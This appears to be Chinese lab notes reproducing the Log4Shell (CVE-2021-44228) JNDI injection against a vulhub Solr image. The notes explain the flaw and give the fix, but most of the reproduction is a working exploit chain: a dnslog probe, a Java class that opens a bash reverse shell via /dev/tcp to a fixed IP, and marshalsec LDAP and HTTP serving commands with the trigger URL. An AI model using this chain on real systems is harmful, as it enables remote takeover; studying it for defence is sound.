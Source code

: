 ## CVE-2021-44228-Log4jJNDI注入命令执行

**漏洞描述**

Apache Log4j 2 是Java语言的日志处理套件，使用极为广泛。在其2.0到2.14.1版本中存在一处JNDI注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于${jndi:ldap://evil.com/example}的lookup用于进行JNDI注入，执行任意代码。

### 漏洞原理

JNDI 全称为 **Java Naming and Directory Interface**，即 Java 名称与目录接口，是一种查找其他组件、资源或服务的通用机制。JNDI Context 的查找内容如果用户可控，就存在 JNDI 注入的可能。通过精心构造服务端的返回，我们可以让请求查找的客户端解析远程代码，最终实现远程命令执行

### 漏洞复现

使用vulhub CVE-2021-44228的镜像进行复现

poc，dnslog检测

~~~
http://101.43.138.109:8080/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.4140sv.dnslog.cn}
~~~

![image-20220223163518990](TyporaPicture/image-20220223163518990.png)

编译一个恶意类

~~~
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            //String[] commands = {"/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/101.43.138.109/1770 0>&1"};
            Process pc = rt.exec("/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/101.43.138.109/1770 0>&1");
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
~~~

开启web服务

~~~
python3 -m http.server 2333
~~~

开启LDAP服务

~~~
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://101.43.138.109:2333/#TouchFile" 1099
~~~

反弹shell，RMI协议同理

~~~
http://101.43.138.109:8080/solr/admin/cores?action=${jndi:ldap://101.43.138.109:1099/TouchFile}
~~~

![image-20220223165054880](TyporaPicture/image-20220223165054880.png)

Log4j的利用方式以及原理和fastjson十分相似，通过jndi注入，调用LDAP或RMI协议，远程加载恶意类造成反序列化命令执行。

### 漏洞修复

升级到log4j 2.15.0以上版本

